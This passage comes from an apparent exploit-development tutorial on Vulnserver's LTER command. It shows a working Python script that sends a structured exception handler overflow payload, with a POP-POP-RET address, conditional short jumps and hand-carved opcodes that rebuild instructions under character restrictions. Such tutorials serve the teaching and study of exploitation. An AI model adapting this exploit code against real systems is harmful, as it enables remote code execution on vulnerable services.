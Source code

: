 ![Carve EAX](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331202/blog/vulnserver-lter-seh/push-eax1_pqhuob.gif)

</div>

Isn’t it wonderful? It looks like black magic\!

Let’s update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'LTER .' +
    b'A' * (3554 - 4) +
    # JNZ SHORT +0x10: Will jump if ZF is 1
    b'\x75\x08' +
    # JZ SHORT +0x6: If the previous jump didn't happen (ZF is 0), jump!
    b'\x74\x06' +
    # 6250172B    5F                          POP EDI
    # 6250172C    5D                          POP EBP
    # 6250172D    C3                          RETN
    struct.pack('<L', 0x6250172B) +
    b'C' * 2 +
    # Align stack pointer
    b'\x54' +                   # PUSH ESP
    b'\x58' +                   # POP EAX
    b'\x66\x05\x53\x14' +       # ADD AX,0x1453
    b'\x50' +                   # PUSH EAX
    b'\x5c' +                   # POP ESP
    # Make EAX = '909080eb'
    b'\x25\x50\x50\x4A\x50' +   # AND EAX,504A5050
    b'\x25\x2A\x2A\x30\x2A' +   # AND EAX,2A302A2A
    b'\x05\x75\x40\x48\x48' +   # ADD EAX,48484075
    b'\x05\x76\x40\x48\x48' +   # ADD EAX,48484076
    b'\x50' +                   # PUSH EAX
    b'C' * (4000 - 3554 - 4)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

## More jumping around

Great, but we landed on a 78-byte buffer. We need to jump to the start
of our `A` buffer. However, as we saw before, 78 bytes is more than
enough for encoding and executing a long backward jump. We will use the
same strategy as before.
